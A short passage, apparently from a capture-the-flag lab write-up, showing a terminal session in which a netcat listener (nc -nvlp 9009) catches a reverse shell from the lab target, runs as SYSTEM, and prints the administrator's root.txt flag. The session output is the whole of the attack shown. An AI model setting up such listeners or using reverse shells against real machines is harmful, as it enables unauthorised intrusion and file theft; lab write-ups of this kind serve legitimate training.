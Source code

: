 <pre><font color="#EF2929"><b>root@kali</b></font>:<font color="#729FCF"><b>~/Desktop/netmon</b></font># nc -nvlp 9009
listening on [any] 9009 ...
connect to [10.10.14.120] from (UNKNOWN) [10.10.10.152] 51019
&gt; whoami
nt authority\system
&gt; ls c:\users\administrator
Contacts Desktop Documents Downloads Favorites Links Music Pictures Saved Games Searches Videos
&gt; ls c:\users\administrator\desktop 
root.txt
&gt; type c:\users\administrator\desktop\root.txt
3018977fb944bf1878f75b879fba67cc
</pre>

That's root and a reverse shell :)

